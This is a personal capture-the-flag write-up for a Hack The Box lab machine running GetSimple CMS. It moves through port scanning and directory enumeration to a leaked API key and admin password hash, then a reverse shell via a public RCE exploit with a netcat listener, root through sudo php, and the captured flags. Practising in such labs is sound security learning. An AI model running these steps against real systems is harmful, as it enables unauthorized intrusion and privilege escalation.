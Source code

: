 # Scanning

**Initial Scanning with Rustscan**
```sh
rustscan -a 10.129.47.83 --ulimit 5000 > ./Logs/Initial_Rustscan ; cat ./Logs/Initial_Rustscan
```
![[Pasted image 20240606075345.png]]
Only 2 ports open.
22 - SSH -> usual open port, better to skip for this box than wasting time.
[[CTF Challenges/Hack The Box/02 Getting Started/Logs/2 Enumeration/80 - HTTP]] -> Web service running with Apache server, gotta enumerate more

**Aggressive open ports scan with nmap**
```sh
nmap -A -T4 -v -p- 10.129.47.83 --open -oA ./Logs/Aggressive_nmap
```
![[Pasted image 20240606080627.png]]

**Nikto scan for web server vulnerabilities**
```sh
nikto -host 10.129.47.83 -output ./Logs/80-nikto.txt
```

+ Server: Apache/2.4.41 (Ubuntu)
+ http-title: Welcome to GetSimple! - gettingstarted
+ http supported methods: GET HEAD POST OPTIONS
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-Content-Type-Options header is not set.
+ /robots.txt: Entry for '/admin/'
+ Apache/2.4.41 appears to be outdated
+ /sitemap.xml: This gives a nice listing of the site content.
+ /admin/: This might be interesting.
+ /data/: Directory indexing found.
+ /readme.txt: This might be interesting.
+ /LICENSE.txt: License file found may identify site software.

---
# Enumeration
## 80 - HTTP Enumeration

### Walkaround

```sh
nmap -sC -sV -v -p 80 10.129.47.83 -oA ./Logs/80_Scriptscan_nmap
```
![[Pasted image 20240606081826.png]]

```url
http://10.129.47.83/
```
![[Pasted image 20240606080100.png]]
Nothing sensitive found in webpage.

```url
view-source:http://10.129.47.83/
```
![[Pasted image 20240606080302.png]]
> [!INFO]
> Identified `Get Simple` as the CMS used for the Web application from page source.

**Directory bruteforcing with Gobuster**
```sh
gobuster dir -u http://10.129.47.83 -w /usr/share/wordlists/dirb/common.txt -o ./Logs/80-Gobuster -t 30
```
![[Pasted image 20240606082205.png]]

**Fingerprinting using WhatWeb**
```sh
whatweb --no-errors http://10.129.47.83 -v > ./Logs/80-Whatweb 
```

---
### Enumeration Findings
***Server: Apache/2.4.41 (Ubuntu)***
 [CVE-2021-41773 -> Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50383)
```sh
searchsploit apache 2.4.41 
```
![[Pasted image 20240606083605.png]]

***http-title: Welcome to GetSimple! - gettingstarted***
- [ ] [CVE - 2022-41544 -> GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)
- [ ] [Metasploit -> GetSimpleCMS PHP File Upload Vulnerability](https://www.rapid7.com/db/modules/exploit/unix/webapp/get_simple_cms_upload_exec/)
- [ ] [CVE - # - # -> Getsimple CMS 3.3.10 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40008)
- [ ] Metasploit -> 0  exploit/unix/webapp/get_simple_cms_upload_exec
- [ ] Metasploit -> 1  exploit/multi/http/getsimplecms_unauth_code_exec
![[Pasted image 20240606091615.png]]

***/robots.txt: Entry for '/admin/'*** and ***/admin/: This might be interesting.***
![[Pasted image 20240606085738.png]]
 ![[Pasted image 20240606090000.png]]

***/readme.txt: This might be interesting.***
![[Pasted image 20240606090202.png]]

***/data/: Directory indexing found.***
***/data                 (Status: 301) [Size: 311] [--> http://10.129.47.83/data/]   ***
```url
http://10.129.47.83/data/cache/2a4c6447379fba09620ba05582eb61af.txt
```
![[Pasted image 20240606090604.png]]
>[! Sensitive Information]
>version identified as 3.3.15 for get simple and its old

```url
http://10.129.47.83/data/other/authorization.xml
```
![[Pasted image 20240606090858.png]]
>[!Sensitive Info]
>API key found : 4f399dc72ff8e619e327800f851e9986

```sh
http://10.129.47.83/data/users/admin.xml
```
![[Pasted image 20240606091113.png]]
>[!Sensitive Info]
>Admin username and password hash found
>
>admin
d033e22ae348aeb5660fc2140aec35850c4da997
>admin@gettingstarted.com

![[Pasted image 20240606092548.png]]

---
### Exploitation Checklist
***Server: Apache/2.4.41 (Ubuntu)***
- [ ] [CVE-2021-41773 -> Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50383)

***http-title: Welcome to GetSimple! - gettingstarted***
- [ ] [CVE - 2022-41544 -> GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)
- [ ] [Metasploit -> GetSimpleCMS PHP File Upload Vulnerability](https://www.rapid7.com/db/modules/exploit/unix/webapp/get_simple_cms_upload_exec/)
- [ ] [CVE - # - # -> Getsimple CMS 3.3.10 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40008)
- [ ] Metasploit -> 0  exploit/unix/webapp/get_simple_cms_upload_exec
- [ ] Metasploit -> 1  exploit/multi/http/getsimplecms_unauth_code_exec
![[Pasted image 20240606091615.png]]

***Admin Login Page***
```url
http://10.129.47.83/admin/
```
![[Pasted image 20240606090000.png]]

>[! Sensitive Information]
>version identified as 3.3.15 for get simple and its old

>[!Sensitive Info]
>API key found: 4f399dc72ff8e619e327800f851e9986

> [!Sensitive Info]
>admin // d033e22ae348aeb5660fc2140aec35850c4da997
>admin:admin
>admin@gettingstarted.com


![[Pasted image 20240606092548.png]]

---
# Initial Foothold

```sh
nc -nvlp 1612
```
![[Pasted image 20240606101824.png]]

```sh
python3 CVE-2022-41544.py 10.129.47.83 / 10.10.14.79:1612 admin  
```
![[Pasted image 20240606101920.png]]

![[Pasted image 20240606101949.png]]

**Upgrading tty**
![[Pasted image 20240606102223.png]]
![[Pasted image 20240606102332.png]]
>[!FLAG]
>cat user.txt
>7002d65b149b0a4d19132a66feed21d8

---
# Privilege Escalation

```sh
sudo -l
```
![[Pasted image 20240606102449.png]]

```url
https://gtfobins.github.io/gtfobins/php/
```
![[Pasted image 20240606102523.png]]
```sh
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
![[Pasted image 20240606102918.png]]
![[Pasted image 20240606103608.png]]
>[!FLAG]
>cat root.txt
f1fba6e9f71efb2630e6e34da6387842

---
